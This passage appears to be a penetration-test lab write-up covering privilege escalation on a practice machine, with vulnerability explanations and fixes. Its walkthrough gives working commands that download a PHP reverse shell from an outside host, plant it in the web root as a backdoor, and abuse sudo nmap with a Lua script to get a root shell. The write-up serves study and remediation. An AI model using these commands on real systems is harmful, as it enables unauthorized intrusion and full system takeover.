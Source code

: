 As proof of exploitation, the tester captured the *local.txt* flag.

![User flag](https://imgur.com/8ANqKJj.png)

## Privilege Escalation
### Vulnerability Explanation
The remote host is running weak configurations on the */etc/apache2/apache2.conf* file, which allows a low-privileged user to write to it. The *www-data* user also has permission to restart the apache2 service, making it easier for exploitation since the attacker would not need to wait for someone to trigger the exploit.
The mahakal user is able to run *nmap* with high privileges, which can be abused to elevate privileges.
### Vulnerability Fix
Remove write permissions from the */etc/apache2/apache2.conf* file for low-privileged users and consider not allowing regular users to run *nmap* with elevated privileges.
### Attack Walkthrough
After establishing a foothold on the target, the tester noticed that the *www-data* user had privileges to restart the apache2 service.

![User can start, stop or restart the apache2 service as root without password](https://imgur.com/UN9jd9Y.png)

With this in mind, the tester started enumerating the service and its directory and verified that the */etc/apache2/apache2.conf* was writable by the current user.
```bash
find /etc -type f -writable 2>/dev/null
```

![The apache configuration file is writable by the user](https://imgur.com/jQTtx0F.png)

Two users were identified in the */etc/passwd*: mahakal and natraj. The tester poisoned the apache2 configuration file and uploaded a backdoor in the HTTP server to regain access to the machine as the *mahakal* user, which was verified to have permissions to run *nmap* with elevated privileges.
```bash
# Backdoor and service restart
wget http://192.168.49.189/php-reverse-shell.php
mv php-reverse-shell.php /var/www/html/revshell.php
/bin/systemctl restart apache2

# Commands as mahakal user to obtain root access
sudo -l
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```

![Poisoning apache2.conf files](https://imgur.com/L4q4Lp5.png)

![Obtaining root access](https://imgur.com/bWWjvVG.png)

## Post-Exploitation
As proof of post-exploitation, the tester captured the *proof.txt* flag.
